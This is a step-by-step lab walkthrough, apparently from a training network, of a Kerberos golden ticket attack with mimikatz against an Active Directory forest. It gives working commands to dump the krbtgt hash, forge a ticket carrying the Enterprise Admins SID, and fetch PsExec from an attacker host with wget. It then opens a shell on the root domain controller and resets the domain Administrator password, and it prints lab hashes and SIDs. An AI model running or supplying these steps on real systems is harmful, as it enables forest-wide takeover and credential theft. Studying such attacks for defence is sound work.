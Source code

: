 To carry out this attack you will need:

- The KRBTGT password hash.
- The Security Identifier (SID) of the (CORPDC) Domain.
- The user account we want to impersonate (Administrator).
- Dump SID of **“Enterprise Admin”** of root.thereserve.loc.
	To make your attack more advanced, you can also inject the SID for the `Enterprise Admins` group so that the user you impersonate would have high privileges. This will give you access to all the machines in the entire Forest if we are successful in doing so.
## Dump the krbtgt Hash


1. On the VICTIME_MACHINE poweshell run mimikatz.exe.
    
2. Once in mimikatz run:
	`privilege::debug` 
	 Ensure this outputs privilege "20" ok.
    
3. ﻿`lsadump::lsa /inject /name:krbtgt`
	This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket.
	
    ![[Golden Ticket Attack with mimikatz-20240608142406169.webp]]

4. Take note of what is outlined in red you'll need it to create the golden ticket.
	- S-1-5-21-170228521-1485475711-3199862024
	- krbtgt
	- 0c757a3445acb94a654554f3ac529ede


## Get the Security Identifier (SID) of the (CORPDC) Domain
On powershell run:

PS C:\Users\Administrator> `Get-ADComputer -Identity "CORPDC"`

![[Golden Ticket Attack with mimikatz-20240608151913994.webp]]



## Dump SID of **“Enterprise Admin”** of root.thereserve.loc

Run on powershell:
PS C:\Users\Administrator> `Get-ADGroup -Identity "Enterprise Admins" -Server rootdc.thereserve.loc`

![[Golden Ticket Attack with mimikatz-20240608152813146.webp]]

## Submit the Golden ticket
In mimikatz run:

 `kerberos::golden /user:Administrator /domain:corp.thereserve.loc /sid:S-1-5-21-170228521-1485475711-3199862024-1009 /service:krbtgt /rc4:0c757a3445acb94a654554f3ac529ede /sids:S-1-5-21-1255581842-1300659601-3764024703-519 /ptt`

### Understanding the Command
- `kerberos::golden`: Indicates that you are creating a Golden Ticket.
- `/user:Administrator`: Specifies the user for whom the Golden Ticket is being created (in this case, the domain administrator).
- `/domain:corp.thereserve.loc`: Specifies the target domain.
- `/sid:S-1-5-21-170228521-1485475711-3199862024-1009`: Specifies the Security Identifier (SID) of the target domain.
- `/service:krbtgt`: Specifies the service account to use, which is typically `krbtgt` (Kerberos Ticket Granting Ticket).
- `/rc4:0c757a3445acb94a654554f3ac529ede`: Specifies the RC4 hash of the `krbtgt` account password.
- `/sids:S-1-5-21-1255581842-1300659601-3764024703-519`: Adds an additional SID to the ticket (useful for domain enumeration and access).
- `/ptt`: Indicates that the ticket should be injected into the current session (Pass-The-Ticket).

![[Golden Ticket Attack with mimikatz-20240608145025836.webp]]

## Use the Golden Ticket to access other machine

﻿In mimikatz run:﻿
﻿`misc::cmd`
﻿
﻿This will open a new command prompt with elevated privileges to all machines.
﻿
![[Golden Ticket Attack with mimikatz-20240608145512638.webp]]

## Interact with rootdc.thereserve.loc

Run on the shell the following command:

C:\Users\Administrator>`dir \\rootdc.thereserve.loc\c$`

![[Golden Ticket Attack with mimikatz-20240608153405335.webp]]

## Get a shell on the ROOTDC

### Download pstools
https://learn.microsoft.com/en-us/sysinternals/downloads/psexec

- Unzip the file.
- Start a python http server on you attacking machine in the directory where you unzipped pstools.
- Get psexec.exe from the shell on the ROOTCD machine.
	PS C:\Users\Administrator> `wget http://10.50.110.16:8000/PsExec.exe -o psexec.exe`

### Run psexec.exe on powershell

PS C:\Users\Administrator> `.\psexec.exe \\rootdc.thereserve.loc cmd.exe`

![[Golden Ticket Attack with mimikatz-20240609134614662.webp]]

![[Golden Ticket Attack with mimikatz-20240609134803204.webp]]
![[Golden Ticket Attack with mimikatz-20240609134915452.webp]]

### Changed the administrator password for ROOTDC

C:\Windows\system32>`powershell.exe -c Set-ADAccountPassword -Identity "Administrator" -NewPassword (ConvertTo-SecureString -AsPlainText "Hacker@123" -Force) -Reset`

rdp into ROOTDC with the new creds.. created a domain admin user for BankDC. Rdp into BankDC.